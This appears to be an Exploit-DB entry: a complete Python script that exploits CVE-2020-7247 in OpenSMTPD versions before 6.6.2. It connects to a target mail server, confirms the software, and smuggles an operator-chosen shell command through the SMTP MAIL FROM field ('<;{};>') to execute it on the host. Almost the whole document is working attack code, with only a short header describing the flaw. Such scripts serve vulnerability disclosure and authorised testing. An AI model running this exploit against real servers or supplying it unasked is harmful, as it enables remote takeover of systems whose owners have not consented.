 EXP
---

    # Exploit Title: OpenSMTPD 6.6.2 - Remote Code Execution
    # Date: 2020-01-29
    # Exploit Author: 1F98D
    # Original Author: Qualys Security Advisory
    # Vendor Homepage: https://www.opensmtpd.org/
    # Software Link: https://github.com/OpenSMTPD/OpenSMTPD/releases/tag/6.6.1p1
    # Version: OpenSMTPD < 6.6.2
    # Tested on: Debian 9.11 (x64)
    # CVE: CVE-2020-7247
    # References:
    # https://www.openwall.com/lists/oss-security/2020/01/28/3
    #
    # OpenSMTPD after commit a8e222352f and before version 6.6.2 does not adequately
    # escape dangerous characters from user-controlled input. An attacker
    # can exploit this to execute arbitrary shell commands on the target.
    #
    #!/usr/local/bin/python3

    from socket import *
    import sys

    if len(sys.argv) != 4:
        print('Usage {} <target ip> <target port> <command>'.format(sys.argv[0]))
        print("E.g. {} 127.0.0.1 25 'touch /tmp/x'".format(sys.argv[0]))
        sys.exit(1)

    ADDR = sys.argv[1]
    PORT = int(sys.argv[2])
    CMD = sys.argv[3]

    s = socket(AF_INET, SOCK_STREAM)
    s.connect((ADDR, PORT))

    res = s.recv(1024)
    if 'OpenSMTPD' not in str(res):
        print('[!] No OpenSMTPD detected')
        print('[!] Received {}'.format(str(res)))
        print('[!] Exiting...')
        sys.exit(1)

    print('[*] OpenSMTPD detected')
    s.send(b'HELO x\r\n')
    res = s.recv(1024)
    if '250' not in str(res):
        print('[!] Error connecting, expected 250')
        print('[!] Received: {}'.format(str(res)))
        print('[!] Exiting...')
        sys.exit(1)

    print('[*] Connected, sending payload')
    s.send(bytes('MAIL FROM:<;{};>\r\n'.format(CMD), 'utf-8'))
    res = s.recv(1024)
    if '250' not in str(res):
        print('[!] Error sending payload, expected 250')
        print('[!] Received: {}'.format(str(res)))
        print('[!] Exiting...')
        sys.exit(1)

    print('[*] Payload sent')
    s.send(b'RCPT TO:<root>\r\n')
    s.recv(1024)
    s.send(b'DATA\r\n')
    s.recv(1024)
    s.send(b'\r\nxxx\r\n.\r\n')
    s.recv(1024)
    s.send(b'QUIT\r\n')
    s.recv(1024)
    print('[*] Done')